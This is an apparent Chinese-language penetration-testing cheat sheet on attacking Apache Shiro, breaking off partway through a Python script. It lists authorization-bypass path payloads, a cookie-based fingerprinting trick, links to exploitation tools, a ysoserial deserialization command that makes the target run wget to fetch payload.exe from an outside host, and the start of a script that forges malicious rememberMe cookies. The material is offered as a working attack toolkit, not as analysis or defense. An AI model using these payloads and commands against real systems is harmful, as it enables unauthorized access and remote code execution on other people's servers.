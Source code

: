 <a name="pMl5E"></a>
## shiro
<a name="XUm4z"></a>
### 权限绕过
```python
/..;/
/;/
/%3b/
/%20/
/%2e/
```
<a name="SxJR5"></a>
### 指纹
cookie添加rememberMe=1;看响应包

权限绕过<br />/;/目录、burpsuit中的包需要url编码后的/%3b<br />比如[http://xxxxxx.com/login](http://xxxxxx.com/;/login)<br />然后[http://xxxxxx.com/;/login](http://xxxxxx.com/;/login)查看网页是否正常，如果正常，很可能存在漏洞，需要找后台的接口登陆。

插件<br />[https://github.com/amad3u4/ShiroScanner/](https://github.com/amad3u4/ShiroScanner/)<br />[https://github.com/rakjong/BurpPlugin_Shiro](https://github.com/rakjong/BurpPlugin_Shiro)<br />安装后，要搜索shiro关键词。才能知道哪些站用了shiro<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615776079696-4ba9237f-77f4-4eeb-844c-aace6fb2f22b.png#height=447&id=dNfQI&originHeight=894&originWidth=1268&originalType=binary&ratio=1&size=89451&status=done&style=none&width=634)
<a name="hJ6lC"></a>
### 加密方式
**新版本Shiro(>=1.4.2)采用了AES-GCM加密方式**，导致旧版工具的加密算法无法正常利用漏洞<br />旧版本是用CBC加密，都是AES的加密算法。

下面的脚本就可以解决最新的加密方式，但是需要同目录下放置ysoserial才行<br />[https://github.com/Ares-X/shiro-exploit](https://github.com/Ares-X/shiro-exploit)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616314539008-4502f3a4-c435-4479-8b8c-63fba6427be5.png#height=388&id=Qfc5M&originHeight=518&originWidth=1079&originalType=binary&ratio=1&size=29673&status=done&style=none&width=809)

[https://github.com/j1anFen/shiro_attack/releases/tag/1.5](https://github.com/j1anFen/shiro_attack/releases/tag/1.5)<br />支持GCM加密打法。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616317976679-ff75fefb-ee2c-4faf-8959-acf68458dc6a.png#height=130&id=NxQQE&originHeight=259&originWidth=725&originalType=binary&ratio=1&size=19466&status=done&style=none&width=362.5)

<a name="sKzRw"></a>
### JRMPClient
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'wget x.x.x.x/payload.exe -O payload.exe'<br />结合**原始的jrmp+cc**

<a name="TvKGQ"></a>
### shiro扫到key，但是没到利用链
<a name="HNFTW"></a>
#### 原始的jrmp+cc
jrmp+cc的方式通过代码执行去测试<br />[https://github.com/insightglacier/Shiro_exploit](https://github.com/insightglacier/Shiro_exploit)<br />[https://www.cnblogs.com/loong-hon/p/10619616.html](https://www.cnblogs.com/loong-hon/p/10619616.html)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628307989148-23e0804e-a67a-44ad-b3b7-8433b0ca50c1.png#height=76&id=uCBxY&originHeight=151&originWidth=1480&originalType=binary&ratio=1&size=22459&status=done&style=none&width=740)
```python
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
```
